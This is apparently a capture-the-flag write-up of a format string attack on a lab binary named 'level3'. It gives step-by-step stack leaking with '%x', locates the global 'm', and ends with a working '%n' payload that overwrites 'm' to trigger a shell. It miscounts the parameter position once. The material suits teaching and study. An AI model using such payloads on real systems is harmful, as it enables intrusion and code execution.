 # level3
Unlike the previous level. `fgets` is used instead if `gets`. `fgets` is a safer function than `gets` because it takes a size parameter. The size parameter is the maximum number of characters to read. This prevents buffer overflow attacks.


## Goal
A global variable `m` is declared and supposed to be equal to zero. `v` function run a shell if `m` is equal to `64`

__We must change  value of `m` to `64`__

## Step 1
After `fgets` is done. `printf()` is used to print the value returned by `fgets`

Yeah !! We can control the first parameter of `printf`. So we can make a __*format string attack*__. See [this video](https://www.youtube.com/watch?v=0WvrSfcdq1I) 

`int printf(const char *format, ...)` is a variadic function

As we can control the first parameter of `printf` we can use a __format string__  like `%x`. It will be reach the next parameter in the __Ellipsis__ and print it as hexa.  

Here is the breach, there is no more parameter.

`printf` is called with more parameters than wanted. And we know that parameters are placed on the stack before a function call.

> Finally: We have access to random value on the stack. It is a leak of the stack


## Step 2
Try to access to `m` pointer by insert multiple `%x` in the format string which will print the value of the stack. Successfully we don't access to `m` pointer but to the buffer at __fifth__ parameter of `printf`


``` bash
(python -c 'print "AAAA " + "%x %x %x %x"'; cat)  | /home/user/level3/level3
```
```console
AAAA 200 b7fd1ac0 b7ff37d0 41414141
```



## Step 3

`va_arg` will not access to `m` pointer but buffer pointer. So we must write `m` address in the buffer

Then, use the `%n` specifier. it will write the number of characters printed so far into the `int *` given. `m` in our case

see [stack overflow n specifier](https://stackoverflow.com/questions/3401156/what-is-the-use-of-the-n-format-specifier-in-c)

## Step 4 
Find address of `m`


``` bash
$ objdump -t level3
--- or ---
$ (gdb) p &m
--- or ---
$ (gdb) info variables
```

> `m` is at `0x0804988c`

## Exploit

```bash
(python -c 'print "\x8c\x98\x04\x08" + "%x%x%x" + "A" * 41 + "%n"'; cat)  | /home/user/level3/level3
```


- Write the address of `m` in the buffer accessed through the fifth paramter of printf
- Write 64 total characters
- Once printf accesses to `m` pointer inside the buffer. make a `%n` 


> 41 = 64 - nb_caracs_ever_printed.  
> It will write 64 in `m`